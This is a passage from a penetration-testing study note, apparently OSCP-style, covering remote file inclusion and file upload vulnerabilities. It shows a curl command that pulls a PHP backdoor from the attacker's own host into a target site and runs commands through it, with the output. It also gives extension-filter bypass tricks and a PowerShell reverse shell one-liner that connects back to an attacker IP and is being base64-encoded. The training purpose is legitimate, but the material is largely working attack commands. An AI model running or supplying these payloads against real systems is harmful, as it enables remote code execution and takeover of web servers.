 ```
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...

┌──(chw㉿CHW-kali)-[/usr/share/webshells/php/]
└─$ curl "http://mountaindesserts.com/meteor/index.php?page=http://192.168.119.3/simple-backdoor.php&cmd=ls"
...
<a href="index.php?page=admin.php"><p style="text-align:center">Admin</p></a>
<!-- Simple PHP backdoor by DK (http://michaeldaw.org) --> 

<pre>admin.php
bavarian.php
css
fonts
img
index.php
js
</pre> 
```

## File Upload Vulnerabilities
File Upload vulnerabilities into three categories:
- Upload files that are executable by the web application
> upload a PHP script
- Combine the file upload mechanism with another vulnerability, such as Directory Traversal
> If the web application is vulnerable to Directory Traversal, we can use a relative path in the file upload request and try to overwrite files like authorized_keys. Furthermore, we can also combine file upload mechanisms with XML External Entity (XXE) or Cross Site Scripting (XSS) attacks.
- Relies on user interaction
> When we discover an upload form for job applications, we can try to upload a CV in .docx4 format with malicious macros5 integrated.

### 1. Using Executable Files
Bypass:\
(1) PHP file extension2 such as `.phps` or `.php7`.\
(2) changing characters in the file extension to `upper case`\
(3) [HackTriacks: File Upload General Methodology](https://book.hacktricks.xyz/pentesting-web/file-upload)
 
>[!Note]
> PowerShell 中實現了一個簡單的 Reverse Shell\
> **encoded reverse shell one-liner**
> ```
> ┌──(chw㉿CHW-kali)-[/]
> └─$ pwsh
>PowerShell 7.1.3
>Copyright (c) Microsoft Corporation.
>
>https://aka.ms/powershell
>Type 'help' to get help.
>
>PS> $Text = '$client = New-Object >System.Net.Sockets.TCPClient("192.168.1>19.3",4444);$stream = $client.GetStream();[byte[]]$bytes = >0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) >-ne 0){;$data = (New-Object -TypeName >System.Text.ASCIIEncoding).GetString($b>ytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()'
>
>
>PS> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
>
>PS> $EncodedText =[Convert]::ToBase64String($Bytes)